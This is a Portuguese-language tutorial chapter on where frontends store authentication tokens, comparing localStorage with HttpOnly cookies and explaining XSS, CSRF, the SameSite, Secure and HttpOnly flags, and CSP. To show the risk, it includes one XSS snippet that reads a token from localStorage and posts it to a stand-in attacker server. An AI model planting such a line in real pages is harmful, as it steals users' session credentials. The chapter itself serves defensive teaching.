

# 03. Armazenamento de Tokens e Segurança no Frontend

No capítulo anterior, compreendemos como a autenticação baseada em tokens (JWT)
e as sessões operam na Web. No entanto, assim que a API responde com sucesso ao
login entregando o token de acesso, surge uma das dúvidas mais debatidas em toda
a engenharia de software frontend:

> **Onde a aplicação deve armazenar o token de autenticação no navegador?**

A escolha do local de armazenamento não é apenas uma questão de conveniência de
código: ela define se a sua aplicação estará vulnerável ou protegida contra os
dois maiores vetores de ataque da história da Web: o **XSS (_Cross-Site
Scripting_)** e o **CSRF (_Cross-Site Request Forgery_)**.

Neste capítulo, você compreenderá as ameaças do XSS e do CSRF, analisará o
confronto definitivo entre **`localStorage` vs. Cookies `HttpOnly`**, dominará
as flags de segurança dos navegadores modernos e conhecerá as melhores práticas
recomendadas pela indústria.

## Compreendendo as Ameaças: XSS vs. CSRF

Para tomar decisões conscientes de arquitetura, precisamos entender exatamente
como cada tipo de ataque funciona:

### 1. XSS (_Cross-Site Scripting_): O Invasor Executa Código na Sua Página

O **XSS** ocorre quando um invasor consegue injetar e executar código JavaScript
malicioso dentro da sua própria aplicação web. Isso pode acontecer através de:

- Renderização insegura de comentários ou textos de usuários no DOM usando
  `element.innerHTML` em vez de `element.textContent`;
- Parâmetros maliciosos inseridos diretamente na URL;
- Pacotes e dependências de terceiros comprometidos na pasta `node_modules`.

Quando um ataque de XSS tem sucesso, o script malicioso roda **com as mesmas
permissões e privilégios do seu próprio código JavaScript**.

### 2. CSRF (_Cross-Site Request Forgery_): O Invasor Forja Ações em Seu Nome

O **CSRF** ocorre quando um site malicioso externo se aproveita do fato de que o
navegador envia cookies automaticamente em requisições de rede para executar uma
ação indesejada em um site onde a vítima está logada (por exemplo, disparar uma
transferência bancária ou alterar o e-mail cadastrado).

## O Confronto: `localStorage` vs. Cookies `HttpOnly`

Ao receber um token após o login, existem duas abordagens principais de
armazenamento no cliente:

### Abordagem A: Armazenar no `localStorage` / `sessionStorage`

Esta é a abordagem mais simples e comum entre desenvolvedores iniciantes:

```typescript
// Após o login:
localStorage.setItem("auth_token", token);

// Em cada requisição fetch:
fetch("/api/meus-dados", {
  headers: {
    Authorization: `Bearer ${localStorage.getItem("auth_token")}`,
  },
});
```

- **Vantagem:** É imune a ataques de CSRF, pois o navegador não anexa o token
  automaticamente; seu código precisa colocá-lo explicitamente no cabeçalho
  `Authorization`.
- **Perigo Crítico:** É **100% vulnerável a ataques de XSS**. Se houver uma
  única brecha de XSS na sua página, o invasor precisa de apenas **uma linha de
  código** para roubar todos os tokens salvos e enviá-los para um servidor
  hacker:

```javascript
// Script malicioso injetado via XSS:
fetch("https://servidor-hacker.com/roubo", {
  method: "POST",
  body: localStorage.getItem("auth_token"),
});
```

### Abordagem B: Armazenar em Cookies com a Flag `HttpOnly`

Nesta abordagem, o JavaScript do frontend **nem sequer tem acesso ao token**. O
servidor backend responde ao login definindo o cookie através do cabeçalho
`Set-Cookie` com flags especiais de proteção:

```http
Set-Cookie: auth_token=eyJhbGciOi...; HttpOnly; Secure; SameSite=Lax; Path=/
```

- **O que a flag `HttpOnly` faz?** Ela proíbe expressamente o motor do navegador
  de expor esse cookie para o JavaScript (`document.cookie` retorna vazio para
  ele).
- **Vantagem Vital:** **Imunidade contra roubo via XSS**. Mesmo que um invasor
  consiga injetar um script malicioso na sua página, o script **não consegue ler
  nem extrair o token**, pois o navegador esconde o cookie do ambiente de
  execução do JavaScript!



## As Três Flags Vitais de Segurança dos Cookies

Para utilizar cookies de forma verdadeiramente segura na Web moderna, três flags
devem ser configuradas em conjunto pelo backend:

| Flag de Segurança | O que ela faz?                                                                                | Por que é vital?                                         |
| :---------------- | :-------------------------------------------------------------------------------------------- | :------------------------------------------------------- |
| **`HttpOnly`**    | Impede que o JavaScript (incluindo scripts maliciosos) acesse o cookie via `document.cookie`. | **Elimina o roubo de tokens por XSS.**                   |
| **`Secure`**      | Garante que o cookie só seja transmitido em conexões criptografadas sob **HTTPS**.            | Impede a interceptação do token em redes Wi-Fi públicas. |
| **`SameSite`**    | Controla se o cookie deve ser enviado em requisições originadas a partir de outros sites.     | **Mitiga e bloqueia ataques de CSRF.**                   |

### Os Três Modos da Flag `SameSite`

1. **`SameSite=Strict`:** O cookie **nunca** é enviado em requisições originadas
   de outros sites (nem mesmo se o usuário clicar em um link externo que aponte
   para a sua aplicação). É a configuração mais segura, mas pode exigir que o
   usuário refaça login se vier de um link de e-mail.
2. **`SameSite=Lax` (Padrão Recomendado):** O cookie é enviado em navegações
   comuns de topo (como clicar em um link para abrir a página), mas é bloqueado
   em requisições perigosas disparadas por formulários ou scripts de terceiros
   (`POST`, `PUT`, `DELETE`). Oferece excelente equilíbrio entre usabilidade e
   segurança.
3. **`SameSite=None`:** O cookie é enviado em qualquer requisição entre sites
   (exige obrigatoriamente a flag `Secure`). Usado em cenários de `<iframe>` ou
   APIs compartilhadas de terceiros.

## Tabela Comparativa de Decisão

| Critério de Avaliação                       |         `localStorage` / `sessionStorage`          |      Cookie com `HttpOnly + Secure + SameSite`      |
| :------------------------------------------ | :------------------------------------------------: | :-------------------------------------------------: |
| **Proteção contra Roubo via XSS**           | ❌ **Nenhuma** (Token legível por qualquer script) |    ✅ **Total** (Inacessível para o JavaScript)     |
| **Proteção contra CSRF**                    |   ✅ **Nativa** (Não é enviado automaticamente)    |  ✅ **Protegido** (Com `SameSite=Lax` ou `Strict`)  |
| **Facilidade de Consumo no Frontend**       |       Muito simples (`localStorage.getItem`)       |    Automático (Navegador anexa nas requisições)     |
| **Necessidade de Configuração no Backend**  |                       Baixa                        | Média (Configuração de cabeçalhos de Cookie e CORS) |
| **Recomendação da Indústria para Produção** |          Apenas para dados não sensíveis           |     **Padrão Ouro para Sessões e Autenticação**     |

## Boas Práticas de Armazenamento de Tokens

### ❌ O que NÃO fazer

- **Não armazene tokens de autenticação sensíveis em `localStorage` ou
  `sessionStorage`:** Qualquer injeção de script via XSS permite que o invasor
  leia o storage e exfiltre as credenciais do usuário.
- **Não armazene dados de autenticação em cookies sem a flag `HttpOnly`:**
  Cookies acessíveis via `document.cookie` sofrem do mesmo risco de roubo que o
  `localStorage`.
- **Não utilize cookies sem a flag `SameSite` definida (`Lax` ou `Strict`):** A
  ausência de restrição de origem permite que o navegador anexe os cookies em
  requisições disparadas por outros sites, viabilizando ataques de CSRF.
- **Não trafegue cookies de autenticação sem a flag `Secure`:** Sem essa flag, o
  cookie pode ser enviado em conexões HTTP não criptografadas e interceptado em
  redes abertas.

### ✅ O que DEVE ser feito

- **Prefira Cookies com `HttpOnly`, `Secure` e `SameSite=Lax` para credenciais:**
  O navegador gerencia o envio automaticamente e impede que o JavaScript leia ou
  extraia o token em caso de injeção de script malicioso.
- **Mantenha Access Tokens apenas em memória no JavaScript (quando aplicável):**
  Caso o frontend precise manipular o token diretamente, guarde-o em uma variável
  de estado na memória durante a sessão e utilize um *Refresh Token* protegido em
  cookie `HttpOnly` para renová-lo.
- **Restrinja o escopo dos cookies com as diretivas `Path` e `Domain`:** Defina
  explicitamente quais rotas e domínios da aplicação têm autorização para
  receber o cookie de autenticação.
- **Configure tempos de expiração adequados com `Max-Age` ou `Expires`:** Evite
  que cookies de autenticação permaneçam válidos por tempo indefinido no
  navegador após o término da sessão do usuário.

<details>
<summary>🔍 <strong>Aprofundamento: Defesa em Profundidade com CSP (Content Security Policy)</strong></summary>

O **CSP (_Content Security Policy_)** é um cabeçalho HTTP de segurança enviado
pelo servidor que funciona como uma lista de permissões rígida para o navegador:

```http
Content-Security-Policy: default-src 'self'; script-src 'self' https://apis.google.com;
```

Com essa política ativa, o navegador:

- **Bloqueia a execução de qualquer script inline** (como tags `<script>`
  injetadas dentro do HTML por um invasor);
- **Impede conexões de rede (`fetch`) para domínios desconhecidos**, garantindo
  que, mesmo que um script tente enviar dados para fora, a requisição seja
  abortada pelo próprio navegador.

</details>

---

<a href="02-metodos-de-persistencia-de-sessao.md">← Métodos de Persistência de
Sessão</a>
